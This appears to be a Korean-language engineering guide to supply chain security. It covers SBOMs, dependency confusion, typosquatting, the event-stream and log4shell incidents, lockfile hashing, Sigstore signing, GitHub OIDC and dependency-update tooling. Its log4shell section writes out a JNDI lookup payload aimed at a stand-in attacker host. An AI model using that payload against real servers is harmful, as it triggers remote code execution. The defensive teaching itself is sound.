




# 공급망 공격 방어 (Software Supply Chain Security)

## 공급망이라는 말의 무게

서비스 코드가 1만 줄이라고 치자. `node_modules` 안에는 수백만 줄의 남이 짠 코드가 들어 있다. `requirements.txt`에 `requests` 한 줄을 적었을 뿐인데 의존성 트리를 따라 내려가면 처음 보는 패키지가 30개씩 딸려 온다. 직접 작성한 코드만 점검해서는 절대 보안을 책임질 수 없다. 공급망 공격은 이 빈틈을 노린다.

공급망 공격이 무서운 이유는 **개발자가 멀쩡한 코드를 작성해도 빌드 산출물에 악성 코드가 들어간다**는 점이다. 코드 리뷰를 아무리 꼼꼼히 해도 의존성에 박혀 있는 백도어를 잡지 못한다. log4shell처럼 사실상 모든 자바 서버가 영향권에 들어가는 사고가 한 번씩 터진다.

5년 정도 백엔드를 짜다 보면, 이런 사고가 났을 때 새벽에 깨어서 의존성 그래프를 뒤지는 일을 한 번씩 겪는다. 평소에 어떻게 준비해두느냐에 따라 새벽 1시에 끝나느냐 새벽 5시까지 가느냐가 갈린다.

---

## 공급망 공격이 어디서 일어나는가

공급망은 코드 작성부터 사용자에게 도달할 때까지의 모든 단계를 가리킨다. 공격자는 가장 약한 고리를 찾는다.



저장소 단계에서는 깃허브 토큰 유출, 의존성 단계에서는 악성 패키지 업로드, 빌드 단계에서는 CI 러너 침투, 배포 단계에서는 OIDC 토큰 탈취가 대표적인 공격 벡터다. 단계마다 방어 수단이 다르기 때문에, 한두 가지만 막아둔다고 해서 공급망 전체가 안전한 게 아니다.

---

## SBOM (Software Bill of Materials)

### SBOM이 왜 필요한가

log4shell이 터졌을 때 모두가 같은 질문을 했다. "우리 서비스에 log4j가 어디에 들어가 있지?" 직접 의존성에 안 적혀 있어도 어딘가의 라이브러리가 끌고 들어왔을 수 있다. 의존성 그래프를 뒤져서 일일이 확인하는 건 시간이 너무 걸린다.

SBOM은 빌드 결과물에 들어간 모든 컴포넌트의 목록이다. 이름, 버전, 라이선스, 해시, 출처가 적혀 있다. SBOM이 있으면 "log4j 2.x가 들어간 빌드를 모두 찾아내라"는 질의를 1초 만에 끝낼 수 있다. 없으면 의존성 트리를 다시 빌드해서 grep으로 뒤져야 한다.

미국 정부는 2021년 행정명령 14028로 연방 조달 소프트웨어에 SBOM 제출을 의무화했다. EU도 사이버 회복 탄력성법(CRA)에서 비슷한 요구를 한다. 정부 계약을 안 해도 글로벌 고객사가 SBOM을 요구하는 일이 점점 늘어난다.

### CycloneDX vs SPDX

SBOM 포맷은 두 가지가 사실상 표준이다.

| 항목 | CycloneDX | SPDX |
|------|-----------|------|
| 주관 | OWASP | Linux Foundation |
| 주된 용도 | 보안 (취약점 추적) | 라이선스 컴플라이언스 |
| 포맷 | JSON, XML, Protobuf | JSON, YAML, RDF, tag-value |
| 채택 사례 | Snyk, Dependency-Track | Microsoft, Google |

라이선스 이슈가 큰 기업은 SPDX를, 취약점 추적 위주로 운영하면 CycloneDX를 선호하는 경향이 있다. 둘 다 지원하는 도구가 많기 때문에 생성은 양쪽으로 해두고 소비 시점에 골라서 쓰는 곳도 많다.

### SBOM 생성 실무

`syft`가 가장 많이 쓰이는 SBOM 생성기다. 컨테이너 이미지, 디렉토리, 아카이브를 입력으로 받아 SBOM을 뱉는다.

```bash
# 컨테이너 이미지에서 SBOM 추출
syft my-app:1.2.3 -o cyclonedx-json > sbom.cdx.json

# 소스 디렉토리에서 추출
syft dir:./my-app -o spdx-json > sbom.spdx.json
```

SBOM을 만들기만 하고 어디 처박아두면 의미가 없다. 취약점 데이터베이스와 연동해야 가치가 생긴다. `grype`는 syft가 만든 SBOM을 입력으로 받아서 알려진 CVE를 매칭한다.

```bash
grype sbom:./sbom.cdx.json --fail-on high
```

CI에서 이 명령으로 high 이상의 취약점이 발견되면 빌드를 실패시키는 게 시작점이다. 운영에 더 깊이 가면 Dependency-Track 같은 SBOM 관리 서버를 두고, 빌드마다 SBOM을 업로드해서 새 CVE가 공개될 때마다 영향받는 빌드를 자동으로 통보받게 한다.

---

## 의존성 혼동 (Dependency Confusion)

### 공격 메커니즘

2021년에 Alex Birsan이 공개한 기법이다. 한 줄로 요약하면 **"공개 저장소에 사내 패키지명과 같은 이름으로 더 높은 버전의 악성 패키지를 올리면, 빌드 시스템이 공개 저장소 쪽을 받아간다"** 는 공격이다.

회사가 사내용으로 `@mycorp/billing` 같은 npm 패키지를 사내 레지스트리에 올려뒀다고 치자. `package.json`에는 `"@mycorp/billing": "^1.0.0"`이라고 적혀 있다. 공격자가 공개 npm에 동일 이름으로 `99.9.9` 버전을 올린다. npm은 사내 레지스트리와 공개 레지스트리를 모두 보고 더 높은 버전을 선택한다. 빌드 머신이 공개 레지스트리의 악성 코드를 가져와 실행한다.

Birsan은 이 기법으로 마이크로소프트, 애플, 페이팔, 우버, 테슬라 등 35개 기업의 내부 시스템에 침투를 성공시켰다. 단순한 PoC가 아니라 실제로 동작하는 공격이라는 게 충격적이었다.

### 방어 방법

방어는 패키지 매니저별로 약간 다르지만 공통 원칙은 같다. **사내 패키지의 이름을 공개 저장소에서 선점하거나, 빌드 도구가 공개 저장소에서 사내 이름을 검색하지 않도록 막는다.**

npm이라면 scope를 사용해서 `@mycorp/billing` 형태로 만들고, `.npmrc`에 scope별 레지스트리를 박아둔다.

```ini
# .npmrc
@mycorp:registry=https://npm.mycorp.internal
//npm.mycorp.internal/:_authToken=${NPM_INTERNAL_TOKEN}

# 명시되지 않은 scope는 공개 npm
registry=https://registry.npmjs.org
```

이렇게 해두면 `@mycorp/*`는 항상 사내 레지스트리에서만 받는다. 추가로 공개 npm에 `@mycorp` scope를 등록해서 공격자가 같은 scope로 패키지를 올리지 못하게 막는다.

PyPI는 scope 개념이 없어서 더 까다롭다. Artifactory나 Nexus 같은 사내 레지스트리에서 **공개 PyPI를 미러링하되, 사내 패키지명과 충돌하면 사내 쪽을 우선하도록** 설정한다. `pip`의 `--index-url` 한 개만 사용하고, `--extra-index-url`은 절대 쓰지 않는 게 핵심이다. extra-index-url은 두 인덱스에서 더 높은 버전을 고르기 때문에 dependency confusion에 그대로 노출된다.

```ini
# pip.conf
[global]
index-url = https://pypi.mycorp.internal/simple
# extra-index-url 사용 금지
```

내부 레지스트리에서 외부 패키지가 필요하면 사내 미러를 통해서만 받도록 한다. 사내 미러는 화이트리스트 방식으로 운영하면 더 안전하다.

---

## 타이포스쿼팅 (Typosquatting)

`requests`를 받으려는데 `reqeusts`라고 오타를 냈다고 치자. 공격자가 미리 `reqeusts` 이름으로 악성 패키지를 올려뒀다면 그대로 설치된다. 이게 타이포스쿼팅이다.

타이포스쿼팅은 사람의 실수에 기댄다. 잘 쓰이는 패키지 이름의 한 글자만 바꾼 변종을 만들어 둔다. 일부 공격자는 LLM에게 "파이썬 라이브러리 추천해줘"라고 물었을 때 환각으로 만들어내는 가짜 이름을 미리 점유해 두기도 한다(슬롭스쿼팅, slopsquatting).

### 실제 사고 패턴

PyPI에는 `requets`, `python-dateutil` 대신 `python-dateutill`, `urllib3` 대신 `urlib3` 같은 변종 패키지가 끊임없이 올라온다. 이런 패키지는 보통 정상 패키지와 동일한 코드를 그대로 복사한 다음 `setup.py` 안에 한두 줄의 악성 코드를 끼워 넣는다. `setup.py`는 설치 시점에 실행되기 때문에 `pip install`만 해도 코드가 돈다.

npm도 마찬가지다. `lodash` 대신 `lodahs`, `cross-env` 대신 `cross-env.js` 같은 변종이 있었다. 2017년 `crossenv`라는 패키지는 환경변수와 npm 토큰을 외부 서버로 빼돌렸다.

### 방어 방법

첫째, **이름을 손으로 타이핑하지 마라.** 공식 문서에서 복사하거나 IDE의 자동완성을 신뢰할 수 있는 형태로 쓴다. README에서 복사한다고 다 안전한 건 아니지만(악성 패키지의 README가 정상 패키지 흉내를 내기도 한다) 손으로 치는 것보다는 안전하다.

둘째, **패키지의 다운로드 수, 게시일, 메인테이너를 본다.** `requests`는 월 다운로드가 수억이고 처음 게시된 게 2011년인데, 변종 패키지는 다운로드가 수백 회에 게시일이 며칠 전이다. CI 도구로 자동화할 수 있다. `socket.dev`나 `snyk`는 의존성에 새 패키지가 추가될 때 다운로드 추이, 메인테이너 평판을 점수화한다.

셋째, **사내 레지스트리에서 화이트리스트로 운영한다.** 새 패키지를 사내 미러에 등록할 때 보안팀이 한 번 검토하는 절차를 두면 사람이 오타를 내도 막힌다.

---

## 악성 패키지 사고 — event-stream

2018년 11월에 일어난 사고다. `event-stream`은 노드 진영에서 월 200만 회 다운로드되던 인기 라이브러리였다. 원래 메인테이너 dominictarr이 더 이상 관리할 시간이 없다고 GitHub에 공지했고, "right9ctrl"이라는 닉을 쓰는 누군가가 메인테이너 권한을 넘겨받겠다고 자원했다. dominictarr은 별다른 검증 없이 권한을 넘겼다.

새 메인테이너는 `flatmap-stream`이라는 새 의존성을 추가했고, 이 안에 BTC 지갑 라이브러리 `copay`를 사용하는 환경에서만 동작하는 악성 코드를 심었다. 코드는 난독화돼 있었고, 특정 조건이 아니면 발화하지 않았기 때문에 일반적인 정적 분석으로는 잡히지 않았다. 결과적으로 `copay`의 비트코인 지갑이 털렸다.

### 이 사고에서 배울 점

오픈소스 메인테이너의 번아웃은 흔하다. 인기 라이브러리의 메인테이너가 한두 명에 불과한 경우가 의외로 많다. 그 한 명이 권한을 넘기는 순간 공급망 전체가 그 새로운 사람의 신뢰도에 묶인다.

방어 측면에서 보면, **의존성을 완전히 제거하거나, 핀(pin)으로 고정하거나, 의존성 변경 알림을 받는** 세 가지가 현실적이다. 작은 유틸 라이브러리를 줄줄이 끌어들이는 것보다, 표준 라이브러리로 대체할 수 있으면 대체하는 게 공급망 표면적을 줄이는 가장 확실한 방법이다.

`leftpad` 사고(2016)도 비슷한 교훈을 준다. 11줄짜리 함수 하나를 위해 npm 패키지를 받아서 쓰는 관행이 생태계 전반의 취약점이 된다. 표준 라이브러리에서 두세 줄로 대체할 수 있는 의존성은 없애는 게 맞다.

---

## log4shell (CVE-2021-44228)




### 사고 개요

2021년 12월에 공개된 log4j2의 원격 코드 실행 취약점이다. 사용자가 입력한 문자열에 `${jndi:ldap://attacker.com/x}` 같은 패턴이 들어가면, log4j2가 이걸 보고 LDAP 서버에서 자바 객체를 다운로드해 실행했다. 패치되지 않은 모든 자바 애플리케이션이 영향권에 있었다.

영향이 컸던 이유는 두 가지다. 첫째, log4j는 자바 진영의 사실상 표준 로깅 라이브러리다. 둘째, 직접 의존성으로 안 적혀 있어도 거의 모든 자바 라이브러리가 transitive dependency로 끌어들이고 있었다.

### 실무 대응 회고

당시 새벽에 받은 슬랙 알림이 아직도 기억난다. "1시간 안에 영향받는 서비스 목록 만들어주세요." 의존성 트리를 다시 풀어서 log4j 2.x를 쓰는 모든 서비스를 찾아야 했다.

SBOM이 있는 팀은 빠르게 끝났다. 없는 팀은 빌드를 다시 돌리면서 `mvn dependency:tree | grep log4j-core`를 일일이 실행했다. 자바 외 언어로 작성된 서비스도 점검해야 했다. `Elasticsearch`나 `Logstash`처럼 자바로 만들어진 인프라가 거의 모든 회사 안에 깔려 있었기 때문이다.

방화벽에서 외부로 나가는 LDAP/DNS를 막는 임시 차단(egress filtering)이 첫 단계였다. JVM 옵션으로 `-Dlog4j2.formatMsgNoLookups=true`를 추가하는 임시 패치, 그 다음 log4j-core를 2.17.1 이상으로 업그레이드. 패키징이 자체 jar에 들어 있는 경우엔 jar 안에서 `JndiLookup.class`를 직접 제거하는 워크어라운드도 썼다.

### 이 사고에서 배울 점

이 사고 이후로 모든 회사가 SBOM에 진지해졌다. "우리 서비스가 log4j를 쓰나요?"에 대한 답을 5분 안에 못 하면 그 자체로 보안 사고다. 추가로 `egress filtering`(외부로 나가는 트래픽 제한)을 기본 설정으로 두는 곳이 늘었다. 서비스가 정상 동작하는 데 외부 LDAP가 필요 없다면 막아둔다. log4shell도 막혔을 거고, SSRF의 영향도 줄어든다.

---

## lockfile 검증

### lockfile이 하는 일

`package-lock.json`, `yarn.lock`, `pnpm-lock.yaml`, `poetry.lock`, `Cargo.lock`, `go.sum` 같은 파일들이 lockfile이다. 의존성의 정확한 버전과 무결성 해시를 박아둔다. 다른 환경에서 빌드해도 같은 버전, 같은 바이트의 패키지가 설치되는 걸 보장한다.

lockfile이 없으면 `^1.0.0`처럼 범위 지정한 버전이 빌드 시점마다 달라진다. 어느 날 `1.0.5`가 새로 나오고 그 안에 백도어가 있다면, 다음 빌드부터 백도어가 들어간다. lockfile은 이걸 막는다. lockfile에 적힌 정확한 버전과 해시가 일치하지 않으면 설치가 실패한다.

### 무결성 해시 검증

`package-lock.json`의 각 의존성에는 `integrity` 필드가 있다.

```json
{
  "node_modules/lodash": {
    "version": "4.17.21",
    "resolved": "https://registry.npmjs.org/lodash/-/lodash-4.17.21.tgz",
    "integrity": "sha512-v2kDEe57lecTulaDIuNTPy3Ry4gLGJ6Z1O3vE1krgXZNrsQ+LFTGHVxVjcXPs17LhbZVGedAJv8XZ1tvj5FvSg=="
  }
}
```

이 해시는 패키지 tarball의 SHA-512다. npm이 받아온 파일의 해시가 lockfile의 값과 다르면 설치가 멈춘다. 누가 레지스트리에서 패키지를 바꿔치기해도 lockfile만 안 건드렸다면 잡힌다.

### CI에서 lockfile을 어떻게 다뤄야 하는가

`npm install`이 아니라 `npm ci`를 써야 한다. `npm install`은 lockfile과 `package.json`이 어긋날 때 lockfile을 갱신한다. `npm ci`는 lockfile을 신뢰하고, 어긋나면 실패한다. CI에서는 항상 `npm ci`다.

```yaml
# GitHub Actions
- name: Install dependencies
  run: npm ci  # lockfile과 다르면 실패
```

`pip`도 비슷하다. `pip-tools`로 만든 `requirements.txt`에 `--hash` 옵션으로 해시를 박아두고, `pip install --require-hashes`로 검증을 강제한다.

```bash
# requirements.in을 컴파일해서 해시 포함
pip-compile --generate-hashes requirements.in

# 설치 시 해시 검증 강제
pip install --require-hashes -r requirements.txt
```

해시가 없거나 어긋나면 설치가 멈춘다. 사내 미러를 통해 들어오는 패키지에 변조가 있어도 잡힌다.

---

## Sigstore — 아티팩트 서명

### 왜 서명이 필요한가

lockfile이 있어도 lockfile 자체를 만들 때 받은 패키지가 정상이라는 보장은 누가 하나? 패키지 자체에 서명이 있고, 그 서명이 메인테이너의 키와 일치한다는 걸 검증할 수 있어야 신뢰의 사슬이 완성된다.

전통적으로는 PGP 서명을 썼다. 메인테이너가 GPG 키로 서명하고, 사용자가 공개키로 검증한다. 문제는 키 관리가 너무 어렵다는 것이다. 키를 잃어버리면 끝이고, 키 회전(key rotation)을 안 하면 한 번 유출됐을 때 수습이 안 된다. 결과적으로 PGP 서명은 일부 패키지에서만 쓰이고 사실상 사문화됐다.

Sigstore는 이걸 다시 풀어보려는 시도다. **단기 키(ephemeral key)를 발급받아 서명하고, 서명한 사실을 투명성 로그에 박아둔다.** 키를 들고 있을 필요가 없고, OIDC ID(예: GitHub Actions 워크플로우)와 서명을 연결시킨다.

### 동작 흐름



Fulcio는 단기 인증서를 발급하는 CA다. CI 러너가 OIDC 토큰을 제출하면, Fulcio가 "이 토큰은 진짜로 GitHub Actions에서 mycorp/myrepo의 release.yml 워크플로우가 발급한 것이다"라는 사실을 인증서에 박아준다. 인증서는 10분짜리고 그 안에 서명을 끝낸다. 키는 메모리에서만 살았다 사라진다.

Rekor는 투명성 로그다. 모든 서명이 여기 기록된다. 누군가가 우리 패키지에 가짜 서명을 만들어 붙이면, Rekor에 그 기록이 없거나 다른 OIDC ID로 기록돼 있어서 잡힌다.

### cosign 사용 예

컨테이너 이미지에 서명하려면 `cosign`을 쓴다.

```bash
# GitHub Actions 환경에서 keyless 서명
cosign sign --yes ghcr.io/mycorp/myapp:1.2.3

# 검증 (특정 워크플로우가 서명한 것만 신뢰)
cosign verify ghcr.io/mycorp/myapp:1.2.3 \
  --certificate-identity "https://github.com/mycorp/myapp/.github/workflows/release.yml@refs/heads/main" \
  --certificate-oidc-issuer "https://token.actions.githubusercontent.com"
```

쿠버네티스에서는 admission controller(예: `policy-controller`)에 위 검증 정책을 박아두면, 서명되지 않거나 다른 워크플로우가 서명한 이미지는 클러스터에 못 들어온다.

npm도 2023년부터 sigstore 기반의 패키지 출처(provenance) 검증을 지원한다. `npm publish --provenance`로 게시하면 패키지 페이지에 어떤 GitHub 워크플로우가 만들었는지 검증된 정보가 표시된다.

---

## GitHub Actions OIDC — 자격증명을 안 들고 다닌다

### 정적 자격증명의 위험

CI에서 AWS에 배포한다고 치자. 전통적으로는 IAM 사용자를 만들고 액세스 키를 발급받아서 GitHub Secrets에 박아뒀다. 이 방식의 문제는:

- 키가 영구적이다. 회전해야 한다는 걸 잊으면 그대로 살아 있다.
- GitHub 저장소가 침투되면 키가 그대로 노출된다.
- 키를 누가 어떤 권한으로 갖고 있는지 추적이 어렵다.

GitHub의 메인테이너가 access token을 잘못 노출시킨 사고가 한두 번이 아니다. PyTorch가 한 번, CodeCov가 한 번, 다 정적 자격증명이 원인이었다.

### OIDC가 동작하는 방식

OIDC는 워크플로우가 실행될 때마다 GitHub이 발급하는 단기 토큰이다. 이 토큰에는 "어떤 저장소의, 어떤 워크플로우의, 어떤 브랜치에서 실행 중인지"가 박혀 있다. AWS, GCP, Azure는 이 토큰을 검증해서 IAM 역할을 잠깐 빌려준다. 키를 저장할 필요가 없다.



AWS의 IAM Role Trust Policy에 "이 저장소의 main 브랜치 워크플로우만 이 역할을 빌릴 수 있다"는 조건을 박는다.

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {
      "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com"
    },
    "Action": "sts:AssumeRoleWithWebIdentity",
    "Condition": {
      "StringEquals": {
        "token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
      },
      "StringLike": {
        "token.actions.githubusercontent.com:sub": "repo:mycorp/myrepo:ref:refs/heads/main"
      }
    }
  }]
}
```

`sub` 클레임의 매칭 패턴이 핵심이다. 잘못 쓰면 다른 저장소까지 이 역할을 빌릴 수 있게 된다. `repo:mycorp/*`처럼 와일드카드를 쓰면 그 조직의 모든 저장소가 풀린다. 가능한 한 좁게 잡는다.

워크플로우 쪽 코드는 이렇게 된다.

```yaml
permissions:
  id-token: write   # OIDC 토큰 발급에 필요
  contents: read

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/github-deploy
          aws-region: ap-northeast-2
      - run: aws s3 sync ./dist s3://my-bucket
```

키를 GitHub Secrets에 안 넣어도 된다. 배포 권한은 1시간 동안만 살고, 워크플로우가 끝나면 사라진다.

---

## Renovate / Dependabot 운영

### 두 도구의 차이

Dependabot은 GitHub이 기본 제공하는 의존성 업데이트 도구다. 설정이 간단하고 GitHub UI와 통합이 잘 된다. 단점은 설정의 유연성이 떨어진다는 것.

Renovate는 Mend(구 WhiteSource)에서 만든 오픈소스 도구다. 설정이 정교하고, monorepo, 그룹 PR, 자동 머지 같은 고급 기능이 많다. 단점은 학습 곡선이 있다는 것. GitHub 외에 GitLab, Bitbucket도 지원한다.

규모가 작으면 Dependabot으로 시작하고, 의존성 PR이 너무 많아져서 정리가 필요해지면 Renovate로 옮기는 패턴이 흔하다.

### 자동 PR이 너무 많다 — 그룹화

서비스 한 개에 의존성이 200개라면 한 달에 PR이 50개씩 올라온다. 이걸 다 리뷰할 시간은 없다. 결국 PR이 쌓이고, 쌓인 PR은 점점 머지하기 어려워진다.

Renovate에서는 의존성을 그룹화해서 한 PR로 묶는다.

```json
{
  "extends": ["config:base"],
  "packageRules": [
    {
      "matchPackagePatterns": ["^@types/"],
      "groupName": "type definitions",
      "schedule": ["before 6am on monday"]
    },
    {
      "matchUpdateTypes": ["minor", "patch"],
      "matchCurrentVersion": "!/^0/",
      "groupName": "all minor/patch",
      "automerge": true,
      "automergeType": "pr",
      "platformAutomerge": true
    },
    {
      "matchUpdateTypes": ["major"],
      "groupName": "major updates",
      "addLabels": ["needs-review"]
    }
  ]
}
```

minor/patch는 묶어서 자동 머지(테스트 통과 시), major는 별도 PR로 분리해서 사람이 검토. `^0` 버전은 SemVer가 안 지켜지니까 자동 머지 제외. 이런 식으로 정책을 짜면 일주일에 한 번만 review해도 의존성이 흘러간다.

### 자동 머지가 안전한가

테스트 커버리지가 충분하면 minor/patch 자동 머지는 합리적이다. CI가 통과한다는 건 호환성 회귀가 없다는 뜻이다. 단, 다음 두 가지를 같이 운영해야 한다.

첫째, **회귀를 잡을 수 있는 테스트가 있어야 한다.** 단위 테스트만으로는 부족하고, 통합 테스트와 e2e 테스트가 핵심 흐름을 커버해야 한다. 의존성이 동작 변경(behavior change)을 일으켰을 때 잡힌다.

둘째, **롤백 절차가 있어야 한다.** 자동 머지 후 운영에서 문제가 발생했을 때, 머지를 되돌리거나 핫픽스를 빠르게 배포할 수 있어야 한다. PR이 자동 머지된 시각과 배포된 시각을 추적할 수 있어야 사고 분석이 가능하다.

### major 업데이트의 함정

major 업데이트는 항상 사람이 본다. SemVer 규칙상 major는 호환성 깨짐을 의미한다. CI가 통과한다고 해서 안전한 게 아니다. 런타임에서 동작이 달라지거나, 환경변수 이름이 바뀌었거나, 기본값이 바뀌었을 수 있다.

특히 보안 라이브러리(`jsonwebtoken`, `bcrypt`, `crypto-js`)의 major 업데이트는 설정 호환성을 직접 검증해야 한다. 알고리즘 기본값이 바뀌면 기존에 발급된 토큰을 검증 못 하게 되는 경우가 있다.

### 보안 패치는 다르게 취급한다

CVE가 공개된 의존성은 일반적인 의존성 업데이트와 다르게 취급해야 한다. Dependabot에는 `dependabot-security-updates` 라벨이 자동으로 붙는다. 이건 CI 통과만 확인하고 즉시 머지하는 별도 트랙으로 운영한다. 그렇지 않으면 패치가 PR 큐에서 며칠씩 잠자고, 그 사이에 공격자가 N-day로 노린다.

---

## 실무에서 흔히 놓치는 부분

### 빌드 캐시도 공급망이다

도커 빌드 캐시, npm 캐시, Maven 캐시 같은 것들이 변조되면 빌드 산출물이 변조된다. CI 러너를 공격자가 침투했을 때 정작 코드는 안 건드리고 캐시만 바꿔도 충분히 백도어를 심을 수 있다. 캐시 키에 의존성 버전과 lockfile 해시를 다 넣어야 하고, 신뢰할 수 없는 소스의 캐시는 절대 가져오지 않는다.

특히 `actions/cache`로 받아오는 캐시 키가 Pull Request 브랜치에서 만들어진 캐시라면 위험하다. 외부 기여자가 PR을 열어서 악성 캐시를 주입하고, 그 캐시가 main 브랜치 빌드에 재사용될 수 있다.

### 도커 베이스 이미지

`FROM node:20`처럼 태그를 적으면 그 태그가 가리키는 이미지가 바뀔 수 있다. `node:20`은 어제는 20.10.0이었는데 오늘은 20.11.0일 수 있다. 보안상 패치는 자동으로 따라가니까 좋아 보이지만, 베이스 이미지가 바뀐 게 빌드 실패 원인일 때 디버깅이 어렵다.

운영에서는 digest로 핀을 박아둔다.

```dockerfile
FROM node:20.11.0-slim@sha256:abcdef...
```

digest는 이미지 내용의 해시다. 한번 박아두면 그 이미지는 절대 안 바뀐다. Renovate가 digest 업데이트도 자동으로 PR을 만들어준다.

### 사후 대응 — 사고가 났을 때

공급망 사고는 났다는 사실을 인지하는 데 시간이 걸린다. 의심이 들기 시작하면 먼저 **영향받은 빌드 목록을 확정**한다. SBOM이 있으면 빠르다. 없으면 빌드 로그에서 의존성 트리를 다시 만든다.

다음으로 **자격증명 회전**이다. 침해된 의존성이 실행됐을 가능성이 있으면, 그 빌드/런타임에서 접근 가능했던 모든 자격증명을 회전시킨다. AWS 키, DB 비밀번호, API 키, 사내 토큰. 시간이 걸려도 회전 안 한 채로 운영을 재개하면 안 된다.

마지막으로 **사후 분석**이다. 어떻게 그 의존성이 들어왔는지, 다른 비슷한 의존성이 있는지, 검증 절차에서 무엇이 빠졌는지 정리한다. 같은 사고가 두 번째로 나면 변명할 게 없다.

---

## 정리

공급망 보안은 한 번에 끝나는 작업이 아니다. SBOM 만들기, lockfile 검증, 자격증명을 정적에서 OIDC로, 의존성 자동 업데이트, 사내 레지스트리 운영, 패키지 서명 검증. 이걸 다 하나씩 도입한다. 한 번에 모든 걸 도입하려고 하면 운영 부담만 커지고 정작 안 돌아간다.

조직마다 시작점이 다르다. SBOM을 안 만드는 곳이라면 거기서부터, lockfile을 CI에서 검증 안 하는 곳이라면 `npm ci`로 바꾸는 것부터, 정적 키를 GitHub Secrets에 박아두는 곳이라면 OIDC 도입부터. 한 번에 한 단계씩 올리되, 사고가 났을 때 어디까지 추적할 수 있는지를 기준으로 우선순위를 매기는 게 가장 실용적이다.

